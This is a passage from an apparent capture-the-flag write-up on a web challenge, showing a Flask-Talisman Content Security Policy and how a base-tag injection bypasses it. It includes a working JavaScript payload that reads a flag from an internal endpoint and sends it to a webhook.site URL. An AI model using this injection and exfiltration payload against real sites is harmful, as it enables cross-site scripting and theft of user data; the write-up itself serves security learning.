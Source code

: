 Time to send a script tag right?

![After sending script tag](/images/lakectf-people/script%20edit.png)

I was expecting to place a script there and call it a day, however, the flask file was protected by a [Content Security Policy](https://jh123x.com/blog/2021-12-02/)

```python
csp = {
    'script-src': '',
    'object-src': "'none'",
    'style-src': "'self'",
    'default-src': ['*', 'data:']
}
Talisman(app,
    force_https=False,
    strict_transport_security=False,
    session_cookie_secure=False,
    content_security_policy=csp,
    content_security_policy_nonce_in=['script-src'])
```

This means that any of the scripts that I include must contain a `nonce` and any other objects I used cannot have an external source.

Hmm, I was stuck. I cannot use `<script>` or `<img onerror='...'>` directly anymore. I needed another way to bypass this.

From the help of another CTF fellow player, I learnt that there was something called a `base` injection. A [`<base>` tag](https://www.w3schools.com/tags/tag_base.asp) can be injected into the website which makes it default all its import links to use that url as a base.

If I inject that into the title field, any subsequent script tags will import from that base instead.

Time to put that into action.

I uploaded by script to [github here](https://github.com/Jh123x/payload) and setup github pages to give me an ip address to use as a base. I also created a folder structure that corresponds to the path that the website is importing from.

```javascript
function httpGet(theUrl) {
  var xmlHttp = new XMLHttpRequest();
  xmlHttp.open("GET", theUrl, false); // false for synchronous request
  xmlHttp.send(null);
  return xmlHttp.responseText;
}
let payload1 = "/";
try {
  const resp456416512364p = httpGet("http://web:8080/flag");
  payload1 =
    "https://webhook.site/5e88af09-1ab7-408f-bf46-65e63746ee3e/?c=" +
    resp456416512364p;
} catch {
  console.log("Error");
}

const DOMPurify = {
  sanitize: () => {
    document.location.href = payload1;
  },
};

document.location.href = payload1;
```
